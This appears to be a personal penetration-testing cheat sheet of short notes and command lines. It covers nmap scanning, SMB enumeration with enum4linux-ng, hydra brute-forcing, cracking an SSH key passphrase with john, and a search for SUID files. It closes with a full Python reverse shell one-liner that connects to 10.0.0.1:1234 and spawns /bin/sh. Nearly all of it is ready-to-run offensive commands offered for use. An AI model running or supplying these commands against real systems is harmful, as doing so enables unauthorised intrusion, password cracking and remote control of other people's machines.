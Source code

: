 # NMAP Basic scan with outfile 

nmap -sC -sV -oN /path/to/file ip

# Enum4linux-ng


**_enumerating smb clients and servers_**

_use example_

python3 enum4linux-ng.py -U -A -R ip

# Hydra example

hydra -l username -P /path/to/wordlist proto://ip

# Cracking the passphrase of an rsa key with John

sh2john.py rsa_file > file.txt
john file.txt

#Checkin for suid on a system run the following commands
find / -perm -u=s -type f 2>/dev/null

# Different ways to read a file

while read line; do echo $line done; < file
cat file
grep . file


# Pentestmonkey reverse shell examples
_in python it would be, note that if the machine doesnt have python2 installed(modern machines) it works with python3_

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
